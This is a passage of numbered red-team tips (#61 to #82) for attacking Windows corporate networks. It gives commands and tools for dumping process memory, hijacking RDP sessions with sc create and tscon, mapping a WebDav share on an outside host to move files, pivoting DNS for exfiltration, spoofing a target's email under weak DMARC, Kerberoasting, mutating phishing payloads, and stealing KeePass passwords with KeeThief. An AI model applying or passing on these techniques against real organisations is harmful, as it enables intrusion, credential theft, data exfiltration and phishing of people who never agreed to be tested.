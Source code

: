 Red tip #61: Get a quick patch list using wmic qfe list brief. Cross ref KB to bulletins.

Red tip #62: Found a process of interest? Dont forget to obtain a MiniDump! Use Out-MiniDump https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1

Red tip #63: Finally in CyberArk, click policies and see safes but no account? Go to accounts search and search for empty and safes show up

Red tip #64: Is WebDav allowed through the gateway? Using http mini redirector? Dont exfiltrate or send in files. WebDav is subject to DLP

Red tip #65: WebDav mini http redirector: net use * http://totallylegit.com/share . Then start z:

Red tip #66: Found potential MQ creds? ActiveMQ? Try out https://github.com/fmtn/a , works to query MQ endpoints that dont use self signed crt

Red tip #67: Use vssadmin to list and create volume shadow copies

Red tip #68: Pivoting into a secure zone that has no DNS or web gateway and need exfil? Netsh port forward pivot UDP 53 to DNS 53 then boom

Red tip #69: Have blue hidden the ways including winkey+R? Try shift and right click desktop and open command prompt

Red tip #70: Tracked down that putty session? Popped the box? Query user and check the victims logon time and idle times

Red tip #71: Hijack his Session using sc create sesshijack binpath= "cmd.exe /k tscon <ID> /dest:<SESSIONNAME>" then use putty session

Red tip #72: Most people understand email sec wrong. SPF does not mean not spoofable. SPF does nothing without DMARC.

Red tip #73: Weak DMARC on victim org domain? Spoof their own emails back into themselves! You even inherit their AD name and photo

Red tip #74: Got access to Microsoft OWA mailbox or O365? You can extract global catalog from contacts use @Burp_Suite and parse JSON object

Red tip #75: Write PHP delivery scripts that can mutate your payloads and add unique trackers per download. This tracks file being executed

Red tip #76: Simulating a criminal threat story with smash and grab agenda? Phish users and hot swap payload mid campaign to test formats

Red tip #77: RCE on a web application for less mature client? nslookup -q=srv _ldap._tcp if its domain joined Invoke-Kerberoast

Red tip #78: @benichmt1 suggests looking for vmdk files across the network. You can use this to potentially access segregated networks

Red tip #79: Obfuscation is never bad, especially when its a button click. @danielhbohannon - https://github.com/danielbohannon

Red tip #80: Need to sweep for uptimes? Use wmic /node:"<computer>" OS get LastBootUpTime in a for loop

Red tip #81: Looking for systems running KeePass? Run a for loop on wmic /node:"host" process list brief :) then look at RT #82

Red tip #82: Found KeePass running in memory? Use @harmj0y KeeThief to extract password and dl the KDBX - https://github.com/HarmJ0y/KeeThief
